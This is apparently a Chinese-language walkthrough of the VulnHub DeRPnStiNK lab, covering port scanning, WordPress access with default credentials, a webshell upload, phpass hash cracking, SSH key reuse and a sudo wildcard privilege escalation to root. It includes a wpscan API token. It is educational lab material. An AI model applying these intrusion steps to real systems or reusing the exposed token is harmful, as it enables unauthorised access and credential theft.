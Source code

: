
![](images/2024-03-21-15-53-53.png)
靶机介绍
https://www.vulnhub.com/entry/derpnstink-1,221/

## 端口扫描

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ sudo nmap -sT --min-rate 9999 -p- 192.168.1.124
[sudo] fforu 的密码：
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 15:45 CST
Nmap scan report for 192.168.1.124
Host is up (0.11s latency).
Not shown: 58262 filtered tcp ports (no-response), 7270 closed tcp ports (conn-refused)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:98:D4:77 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 27.58 seconds

┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ sudo nmap -sT -sCV -O -p21,22,80 192.168.1.124
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-21 15:46 CST
Nmap scan report for 192.168.1.124
Host is up (0.00090s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.2
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   1024 12:4e:f8:6e:7b:6c:c6:d8:7c:d8:29:77:d1:0b:eb:72 (DSA)
|   2048 72:c5:1c:5f:81:7b:dd:1a:fb:2e:59:67:fe:a6:91:2f (RSA)
|   256 06:77:0f:4b:96:0a:3a:2c:3b:f0:8c:2b:57:b5:97:bc (ECDSA)
|_  256 28:e8:ed:7c:60:7f:19:6c:e3:24:79:31:ca:ab:5d:2d (ED25519)
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-title: DeRPnStiNK
| http-robots.txt: 2 disallowed entries
|_/php/ /temporary/
|_http-server-header: Apache/2.4.7 (Ubuntu)
MAC Address: 08:00:27:98:D4:77 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: WAP
Running: Linux 2.4.X|2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.4.20 cpe:/o:linux:linux_kernel:2.6.22
OS details: Tomato 1.28 (Linux 2.4.20), Tomato firmware (Linux 2.6.22)
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.06 seconds
```

## web渗透

![](images/2024-03-21-15-55-59.png)
检查源代码得到一个flag
![](images/2024-03-21-18-44-29.png)
经过一系列信息搜集
得到一个wordpress的登录页面
可恶admin/admin直接进了
还卡了很久去搞了pypmyadmin站:(
![](images/2024-03-21-19-26-13.png)
进去了权限很低，看不到主题更看不到插件
wpscan给api再扫一遍
wpscan --url http://derpnstink.local/weblog/ --api-token  tYtl343tIjp9AjUaIHnLdZHA3QaRestXTHc7aBI59Jw
![](images/2024-03-21-19-40-26.png)
有一个文件上传，看一下介绍吧

![](images/2024-03-21-20-04-15.png)
这里可以看到有文件上传点
## getshell

本来想着直接上传反弹shell的马，结果弹了半天没弹回来
直接一句话木马蚁剑连了
![](images/2024-03-21-20-27-14.png)
连了shell看wordpress的配置文件
![](images/2024-03-21-21-00-48.png)
![](images/2024-03-21-20-57-26.png)
找到两个flag
然后就提权把

## 内网信息收集

![](images/2024-03-21-21-10-27.png)
sql数据库信息收集
```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK]
└─$ hashcat -m 400 -a 0 '$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41' /usr/share/wordlists/rockyou.txt
$P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41:wedgie57

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 400 (phpass)
Hash.Target......: $P$BW6NTkFvboVVCHU2R9qmNai1WfHSC41
Time.Started.....: Thu Mar 21 21:03:24 2024 (5 mins, 10 secs)
Time.Estimated...: Thu Mar 21 21:08:34 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:     9060 H/s (9.43ms) @ Accel:512 Loops:128 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 2801664/14344385 (19.53%)
Rejected.........: 0/2801664 (0.00%)
Restore.Point....: 2795520/14344385 (19.49%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:8064-8192
Candidate.Engine.: Device Generator
Candidates.#1....: weebanedth -> wcw32792

Started: Thu Mar 21 21:03:23 2024
Stopped: Thu Mar 21 21:08:36 2024
```
得到一个密码:wedgie57
su一下stinky用户
切换成功

![](images/2024-03-21-21-11-27.png)
在stinky用户家目录下找到一个私钥

![](images/2024-03-21-21-14-04.png)
暂且不知道是连谁的，都去试试吧

连stinky

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK/png]
└─$ ssh -i key stinky@192.168.1.124 -oPubkeyAcceptedKeyTypes=ssh-rsa,ssh-dss
Ubuntu 14.04.5 LTS


                       ,~~~~~~~~~~~~~..
                       '  Derrrrrp  N  `
        ,~~~~~~,       |    Stink      |
       / ,      \      ',  ________ _,"
      /,~|_______\.      \/
     /~ (__________)
    (*)  ; (^)(^)':
        =;  ____  ;
          ; """"  ;=
   {"}_   ' '""' ' _{"}
   \__/     >  <   \__/
      \    ,"   ",  /
       \  "       /"
          "      "=
           >     <
          ="     "-
          -`.   ,'
                -
            `--'

Welcome to Ubuntu 14.04.5 LTS (GNU/Linux 4.4.0-31-generic i686)

 * Documentation:  https://help.ubuntu.com/

501 packages can be updated.
415 updates are security updates.

New release '16.04.7 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Thu Mar 21 09:17:47 2024 from localhost
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
-bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
stinky@DeRPnStiNK:~$
```

记得前面有个ftp端口
现在得到了这些信息
通过stinky/wedgie57

```bash
┌──(fforu㉿fforu)-[~/workspace/DeRPnStiNK/png]
└─$ cat derpissues.txt
12:06 mrderp: hey i cant login to wordpress anymore. Can you look into it?
12:07 stinky: yeah. did you need a password reset?
12:07 mrderp: I think i accidently deleted my account
12:07 mrderp: i just need to logon once to make a change
12:07 stinky: im gonna packet capture so we can figure out whats going on
12:07 mrderp: that seems a bit overkill, but wtv
12:08 stinky: commence the sniffer!!!!
12:08 mrderp: -_-
12:10 stinky: fine derp, i think i fixed it for you though. cany you try to login?
12:11 mrderp: awesome it works!
12:12 stinky: we really are the best sysadmins #team
12:13 mrderp: i guess we are...
12:15 mrderp: alright I made the changes, feel free to decomission my account
12:20 stinky: done! yay
```
![](images/2024-03-21-21-41-45.png)

那么就找下流量包把，可能包含密码
![](images/2024-03-21-21-53-45.png)
找到了mrderp用户及密码
merderp/derpderpderpderpderpderpderp
```bash
stinky@DeRPnStiNK:~/Documents$ su mrderp
Password:
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
mrderp@DeRPnStiNK:/home/stinky/Documents$
```

## 提权

切换到mrderp后sudo -l
```bash
mrderp@DeRPnStiNK:~$ sudo -l
Matching Defaults entries for mrderp on DeRPnStiNK:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User mrderp may run the following commands on DeRPnStiNK:
    (ALL) /home/mrderp/binaries/derpy*
mrderp@DeRPnStiNK:~$ sudo /home/mrderp/binaries/derpy*
sudo: /home/mrderp/binaries/derpy*: command not found
mrderp@DeRPnStiNK:~$ chmod +x ^C
mrderp@DeRPnStiNK:~$ cd binaries/
mrderp@DeRPnStiNK:~/binaries$ ls -la
total 8
drwxrwxr-x  2 mrderp mrderp 4096 Mar 21 09:57 .
drwx------ 11 mrderp mrderp 4096 Mar 21 09:58 ..
mrderp@DeRPnStiNK:~/binaries$ touch derpy.sh
mrderp@DeRPnStiNK:~/binaries$ ls
derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '#!/bin/bash' >>derpy.sh
mrderp@DeRPnStiNK:~/binaries$ echo '/bin/bash' >> derpy.sh
mrderp@DeRPnStiNK:~/binaries$ cat derpy.sh
#!/bin/bash
/bin/bash
mrderp@DeRPnStiNK:~/binaries$ chmod +x derpy.sh
mrderp@DeRPnStiNK:~/binaries$ sudo /home/mrderp/binaries/derpy*
/bin/bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
bash: warning: setlocale: LC_ALL: cannot change locale (zh_CN.UTF-8)
root@DeRPnStiNK:~/binaries# whoami
root
root@DeRPnStiNK:~/binaries# find / -name 'flag*' -type f -not -path '/sys/*' -not -path '/usr/*' 2>/dev/null
/home/stinky/Desktop/flag.txt
/root/Desktop/flag.txt
root@DeRPnStiNK:~/binaries#

```
发现了一个可以执行脚本的sudo权限
新建一个写入bash就可以了